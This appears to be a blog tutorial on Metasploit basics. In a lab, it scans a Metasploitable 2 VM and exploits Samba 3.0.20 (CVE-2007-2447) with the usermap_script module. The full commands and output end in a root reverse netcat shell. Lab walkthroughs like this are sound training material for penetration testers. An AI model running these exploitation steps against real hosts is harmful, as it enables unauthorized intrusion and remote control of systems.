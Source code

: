 ```yaml
---
layout: post
title: "Metasploit Basics"
description: "Form the first start to a reverse shell on a vulnerable host"
#image: /assets/img/.png
#date-modified: 2020-mm-dd
excerpt_separator: <!--more-->
categories: [ "Security" ]
tags: [ "Metasploit", "Kali", "Metasploitable" ]
---
```


This guide show a basic way to use Metasploit (from the Kali Linux distribution). As a result, a reverse shell on a vulnerable host will be open.

This is *not* a guide for `Metasploitable 2`.

## Requirements

To follow this guide exactly:

- a VMware virtual machine with Kali Linux and Metasploit installed. See [Kali Linux on VMware Workstation]({% post_url 2022-11-19-Kali_VMware %}) if you need assistance.
- [Metasploitable 2](https://docs.rapid7.com/metasploit/metasploitable-2) virtual machine. I've downloaded [Metasploitable 2 from SourceForge](http://sourceforge.net/projects/metasploitable/files/Metasploitable2/) site.

## Getting started

Prepare the `Metasploitable 2` guest:

- Load `Metasploitable 2` virtual machine in VMware and remove the network adapter that is **not** connected to the `Host-only` network.
- Start `Metasploitable 2` and login with `msfadmin:msfadmin` credential
- Execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.129`

In Kali open a terminal, execute `ip a` and note the IPv4 address of `eth0`, in my case was `172.16.115.130`, then and start `msfconsole`.

**Note:** Most of the commands in `msfconsole` will display their help if called with `-h` flag.

```sh
# create a new workspace
msf6 > workspace -a metasploitable
[*] Added workspace: metasploitable
[*] Workspace: metasploitable

# db_nmap uses nmap then stores the results in the workspace's database
# without port specification it will scan the most common 1000 TCP ports
# using the flag `-sV` will also query the open ports to try to identify the services
msf6 > db_nmap -n -sV 172.16.115.129
[*] Nmap: Starting Nmap ...
[...]

# is only one host now but using the `host` command you can see all the hosts in this workspace
msf6 > hosts
Hosts
=====
address         mac  name  os_name  os_flavor  os_sp  purpose  info  comments
-------         ---  ----  -------  ---------  -----  -------  ----  --------
172.16.115.129             Linux                      server

# the `services` command shows the services in this workspace
msf6 > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
172.16.115.129  21     tcp    ftp          open   vsftpd 2.3.4
172.16.115.129  22     tcp    ssh          open   OpenSSH 4.7p1 Debian 8ubuntu1 protocol 2.0
172.16.115.129  23     tcp    telnet       open   Linux telnetd
172.16.115.129  25     tcp    smtp         open   Postfix smtpd
172.16.115.129  53     tcp    domain       open   ISC BIND 9.4.2
172.16.115.129  80     tcp    http         open   Apache httpd 2.2.8 (Ubuntu) DAV/2
172.16.115.129  111    tcp    rpcbind      open   2 RPC #100000
172.16.115.129  139    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  445    tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.115.129  512    tcp    exec         open   netkit-rsh rexecd
172.16.115.129  513    tcp    login        open   OpenBSD or Solaris rlogind
172.16.115.129  514    tcp    shell        open   Netkit rshd
[...]

# using a dedicated module we may get better information about Samba's version
msf6 > use auxiliary/scanner/smb/smb_version
# set the RHOSTS option with the address of the Metaspoitable vm
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129
# start the module
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 172.16.115.129:445    - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 172.16.115.129:445    -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 172.16.115.129:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

# the new version was stored in workspace's database
msf6 auxiliary(scanner/smb/smb_version) > services
Services
========
host            port   proto  name         state  info
----            ----   -----  ----         -----  ----
[...]
172.16.115.129  445    tcp    smb          open   Unix (Samba 3.0.20-Debian)
[...]
```

## Find an exploit

**Method  1** Is faster to use `search Samba` because the list of available
exploits is way shorter that the list of vulnerabilities

**Method 2** Find the exploits with `searchsploit samba` :

```sh
$ searchsploit samba
[...]
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)  | unix/remote/16320.rb
```

then search the exploit in Metasploit:

```sh
msf6 > search username map
Matching Modules
================
   #  Name                                        Disclosure Date  Rank       Check  Description
[...]
   3  exploit/multi/samba/usermap_script          2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 3** Scan the host with GVM (OpenVAS) or another vulnerability scanner then, if a vulnerability
is found search it in Metasploit:

```sh
msf6 auxiliary(scanner/smb/smb_version) > search CVE-2007-2447
Matching Modules
================
   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution
```

**Method 4** Search for Samba in a CVE list:

- [NIST - Search Vulnerability Database](https://nvd.nist.gov/vuln/search)
- [MITRE - Search CVE List](https://cve.mitre.org/cve/search_cve_list.html)
- etc.

I have used "Samba code" as a search term and found that CVE-2007-2447 allows remote attackers to execute arbitrary code in Samba version 3.0.20.

## Exploit

```sh
# select the exploit
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
[*] Using configured payload cmd/unix/reverse_netcat

# View the full module information with the info, or info -d command

# Check module's options
msf6 exploit(multi/samba/usermap_script) > show options
Module options (exploit/multi/samba/usermap_script):
   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):
   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  127.0.0.1        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:
   Id  Name
   --  ----
   0   Automatic

# set the RHOSTS option with the address of the Metaspoitable vm
msf6 exploit(multi/samba/usermap_script) > set RHOSTS 172.16.115.129 
RHOSTS => 172.16.115.129

# because the payload uses a reverse connection LHOST must be the address
# of the this vm
msf6 exploit(multi/samba/usermap_script) > set LHOST 172.16.115.130 
LHOST => 172.16.115.130

# start
msf6 exploit(multi/samba/usermap_script) > exploit
[*] Started reverse TCP handler on 172.16.115.130:4444 
[*] Command shell session 1 opened (172.16.115.130:4444 -> 172.16.115.129:53175) at 2022-11-19 11:12:13

# try some commands on the remote host
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
id
uid=0(root) gid=0(root)
exit
[*] 172.16.115.129 - Command shell session 1 closed.

# bye
msf6 exploit(multi/samba/usermap_script) > exit
```
